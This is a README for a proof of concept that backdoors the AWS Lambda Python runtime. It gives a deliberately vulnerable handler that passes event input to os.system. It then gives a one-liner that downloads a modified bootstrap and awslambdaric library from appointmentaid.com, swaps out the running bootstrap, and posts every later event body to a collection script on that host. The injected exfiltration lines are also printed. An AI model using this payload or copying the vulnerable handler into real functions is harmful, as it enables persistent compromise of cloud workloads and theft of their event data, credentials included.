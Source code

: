 # Instructions for POC

- Create a new lambda with a python 3.12 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import zipfile;import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap2.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'https://appointmentaid.com/awslambdaric-evil.zip');w = open('/tmp/evil.zip', 'wb');w.write(r.data);w.close();zipfile.ZipFile('/tmp/evil.zip', 'r').extractall('/tmp');r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\""
}
```

After swapping the bootstrap all subsequent events will be leaked in a POST request to https://www.appointmentaid.com/postcatcher.php and can be viewed at https://www.appointmentaid.com/lambda.txt


### Explained
This POC works by editing the existing python 3.12 bootstrap.py file as well as the bootstrap.py file within the `awslambdaric` library itself. The following 3 lines are added to the bootstrap.py inside the `awslambdaric` library inside of the while loop:
```
import urllib3
http = urllib3.PoolManager()
http.request('post', 'https://www.appointmentaid.com/postcatcher.php', body=event_request.event_body)
```

In the main bootstrap.py file, this line is added near the top:
```
sys.path.insert(0, '/tmp')
```
The source code for postcatcher.php is included in the `php` folder in the root of this repo.

The modified `awslambdaric` library is zipped up and hosted along with the `bootstrap.py` file. The "exploit event" is a python one liner that downloads the `bootstrap.py` and the `awslambdaric` zip file. It unzips the zipped library into tmp along with the bootstrap file and then replaces the running bootstrap with the bootstrap.py from /tmp using our modified library.
